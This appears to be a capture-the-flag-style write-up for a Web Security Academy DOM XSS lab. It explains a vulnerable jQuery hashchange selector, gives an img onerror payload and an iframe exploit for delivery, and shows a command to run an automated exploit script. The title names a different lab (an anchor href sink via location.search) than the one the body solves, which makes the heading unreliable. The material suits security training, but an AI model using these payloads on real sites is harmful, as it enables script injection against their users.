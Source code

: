 # XSS LAB 06 - DOM XSS in jQuery anchor href attribute sink using location.search source

## Manual Solution

### 1. Access the Lab
- Navigate to the Web Security Academy lab environment using your browser

### 2. Locate the Vulnerable Script
- Inspect the page source to find this script:
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

### 3. Understanding the Vulnerability
- The script uses `window.location.hash` to read the URL fragment (text after #)
  - `window.location.hash.slice(1)` removes the # character from the beginning
- The script searches for blog post headers containing this text using jQuery's `contains` selector
- When found, it scrolls to that post using `scrollIntoView()`
- This creates an XSS vulnerability because the hash content is not properly sanitized

### 4. Testing the Vulnerability
- Append this XSS payload to the URL:  `#<img src=x onerror=print()>`

### 5. Full Exploitation
- Navigate to the 'Exploit Server' from the lab homepage
- Insert this payload into the body:
  ```html
  <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
  ```
- Deliver the exploit to complete the lab

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_06.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```





